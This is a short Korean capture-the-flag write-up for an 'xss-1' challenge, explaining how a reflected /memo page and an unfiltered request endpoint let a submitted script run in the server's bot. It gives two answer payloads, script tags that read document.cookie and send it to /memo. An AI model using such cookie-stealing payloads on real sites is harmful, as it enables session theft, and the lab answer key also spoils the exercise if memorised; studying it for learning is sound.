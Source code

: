 # xss-1

    flag는 서버내에서 보내는 아래 HTTP요청의 쿠키 값임.
    
    memo는 요청 URL파라미터 값을 출력함.
    /memo?memo=hello
    서버의 변수를 URL요청에 담아서 값을 확인할 수 있음.

- 서버에 요청을 보낼 수 있는 기능이 있음.
    - http://127.0.0.1:8000/xxs?xxs=[입력]   
- '입력' 에 코드를 넣으면 xss필터링 없이 서버로 요청을 보냄.
- 서버안에서 '/memo?memo=쿠키값' 이렇게 보내야 쿠키값이 memo에 찍힘    
    >답1: \<script>new Image.src="/memo?memo="+document.cookie;\</script>   
    >답2: \<script>document.location.href="/memo?memo="+document.cookie;\</script>

- 스크립트를 넣어서 요청을 보내기만 하면 됨.